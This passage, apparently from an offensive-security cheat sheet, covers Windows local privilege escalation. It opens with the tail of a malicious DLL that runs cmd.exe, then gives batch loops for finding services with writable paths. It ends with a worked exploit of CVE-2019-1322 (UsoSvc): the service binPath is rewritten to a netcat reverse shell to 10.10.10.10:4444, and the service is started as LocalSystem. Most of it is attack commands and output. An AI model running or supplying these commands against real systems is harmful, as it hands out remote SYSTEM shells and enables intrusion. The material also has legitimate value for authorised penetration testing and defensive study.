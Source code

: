 ```
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

- PATH directories with weak permissions
    

- ```
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
    
    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
    ```
    

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`

> icacls (Windows Vista +)  
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```
